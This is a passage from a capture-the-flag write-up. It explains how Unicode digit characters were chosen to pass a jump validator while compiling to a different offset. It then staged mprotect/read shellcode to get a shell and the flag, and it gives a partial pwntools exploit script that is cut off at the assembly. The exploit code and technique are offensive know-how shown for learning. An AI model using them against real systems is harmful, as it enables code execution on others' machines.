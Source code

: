 The next step was to generate a valid argument for jump that would equal **-51** in the compiler. The issue here was that the the number had to be within 20 of the current instruction pointer to pass the validation, but we could only have 23 instructions for the value of -51 to still jump to the correct place in the middle of our first instruction. I changed the above function from **100000** to **1000** and set it running.

The values I'd picked weren't really set in stone, so I started changing the generator to search for other values that could be used with some padding and jumping around, but then one was found `᥆᱀০୦০႐꘠꘠੦０᥆꘠꘠୦013` which is **13** when validating and **-51** when compiling, perfect!

The final stage was putting it all together and create the shellcode. I decided to do a simple *mprotect* and *read* as the first stage, then I could just send through a second stage payload with the remaining shellcode.

After a bit of time calculating random numbers, we get a shell and then the flag **CTF{8röther_m4y_1_h4v3_söm3_nümb3r5}**


*Full exploit script*
```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import logging
from pwn import *
from ctypes import *
import random

compiler = CDLL("linux-x86-64/libcompiler.so")

valid_zeroes = [0x30, 0x660, 0x6f0, 0x7c0, 0x966, 0x9e6, 0xa66, 0xae6, 0xb66, 0xbe6, 0xc66, 0xce6, 0xd66, 0xe50, 0xed0, 0xf20, 0x1040, 0x1090,
       0x17e0, 0x1810, 0x1946, 0x19d0, 0x1a80, 0x1a90, 0x1b50, 0x1bb0, 0x1c40, 0x1c50, 0xa620, 0xa8d0, 0xa900, 0xa9d0, 0xaa50, 0xabf0, 0xff10]
encoded_zeros = map(lambda c: unichr(c).encode("utf8"), valid_zeroes)

def get_num(goal):
    print goal
    base = goal / 100000 * 100000

    while True:
        sample = []
        for _ in range(random.randrange(1, 10)):
            sample.append(random.choice(encoded_zeros))

        payload = "{}00000)".format("".join(sample))
        res = compiler.intbracket(payload)
        if res >= base and res <= goal:
            difference = goal % 100000 - (res - base)
            payload = "{}{:05d}".format("".join(sample), difference)
            
            assert compiler.intbracket(payload + ")") == goal
            return payload

def exploit():
    # mprotect(text, 0x1000, 7)
    # read(0, text, 0x1000)
    code = asm("""
    mov esi, eax
    xor eax, eax
    mov al, 10
    xor edx, edx
    mov dl, 7
    syscall
    push rdi
    push rsi
```